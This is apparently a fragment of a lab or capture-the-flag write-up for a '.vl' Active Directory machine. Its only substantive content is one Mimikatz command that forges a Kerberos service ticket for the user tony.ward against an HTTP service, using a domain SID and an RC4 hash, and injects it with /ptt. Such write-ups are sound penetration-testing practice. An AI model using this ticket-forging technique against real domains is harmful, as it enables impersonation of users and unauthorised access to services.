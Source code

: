 <img src="attachments/798d3be87f470ac0cdc9d05e5788a758.png" />

```
kerberos::golden /domain:lustrous.vl /sid:S-1-5-21-2355092754-1584501958-1513963426 /rc4:e67af8b3d78df5a02eb0d57b6cb60717 /user:tony.ward /target:LusApp.lustrous.vl /service:http /ptt
```

